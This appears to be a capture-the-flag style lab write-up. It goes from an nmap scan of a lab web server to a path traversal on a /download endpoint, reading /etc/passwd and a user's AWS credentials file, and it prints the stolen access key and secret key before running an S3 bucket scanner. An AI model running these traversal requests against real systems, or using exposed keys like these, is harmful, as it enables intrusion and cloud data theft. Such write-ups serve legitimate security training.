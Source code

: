 ```yaml
---
title: Path Traversal to AWS Credentials to S3
layout: list
permalink: /writeups/cloud/pwnedlabs/ 
---
```


# Entry Point

`13.50.73.5` 

<br><br>

### NMAP

```
# Nmap 7.94SVN scan initiated Thu Oct 10 15:55:22 2024 as: nmap -p 80 -sC -sV -oA scans/port80 13.50.73.5
WARNING: Service 13.50.73.5:80 had already soft-matched rtsp, but now soft-matched sip; ignoring second value
Nmap scan report for ec2-13-50-73-5.eu-north-1.compute.amazonaws.com (13.50.73.5)
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
80/tcp open  rtsp
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Content-Type: application/json
|     Content-Length: 163
|     {"error":{"message":"The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.","type":"NotFound"}}
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2359
|     Vary: Cookie
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta http-equiv="X-UA-Compatible" content="IE=edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <link rel="stylesheet" href="https://huge-logistics-bucket.s3.eu-north-1.amazonaws.com/static/css/main.css">
|     <link rel="stylesheet" href="https://huge-logistics-bucket.s3.eu-north-1.amazonaws.com/static/css/navbar.css">
|     <link rel="shortcut icon" href="https://huge-logistics-bucket.s3.eu-north-1.amazonaws.com/static/images/favicon.ico">
|     <link rel="stylesheet" href="https://huge-logistics-bucket.s3.eu-north-1.amazonaws.com/static/css/home.css">
|     <title>Home - Huge Logistics.</title>
|     </head>
|     <body>
|     <div class="navbar">
|     <ul>
|     <li><a class="nav-
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     RTSP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|_    Content-Length: 0
|_http-title: Home - Huge Logistics.
```

# Website

![image](/assets/img/Pasted image 20241010155617.png)

### `/signup`

![image](/assets/img/Pasted image 20241010155922.png)

### `/invoices`

![image](/assets/img/Pasted image 20241010160026.png)

<br>

### LFI

![image](/assets/img/Pasted image 20241020230644.png)

![image](/assets/img/Pasted image 20241020230712.png)


```
GET /download?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
```

![image](/assets/img/Pasted image 20241020230735.png)

### Local Users

```
ec2-user:x:1000:1000:EC2 Default User:/home/ec2-user:/bin/bash
nedf:x:1001:1001::/home/nedf:/bin/bash
```

### AWS Credentials

```
GET /download?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fnedf%2F.aws%2Fcredentials HTTP/1.1
```

```
[default]
aws_access_key_id = AKIATWVWNKAVEUUNAYO6
aws_secret_access_key = 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
```

![image](/assets/img/Pasted image 20241020233131.png)

<br><br>

# AWS

### S3

```
huge-logistics-bucket.s3.eu-north-1.amazonaws.com
```

![image](/assets/img/Pasted image 20241021004217.png)

```bash
python3 /opt/aws-s3-scanner/s3-scanner/main.py --profile nedf --region eu-north-1 --bucket huge-logistics-bucket
```

![image](/assets/img/Pasted image 20241021004608.png)

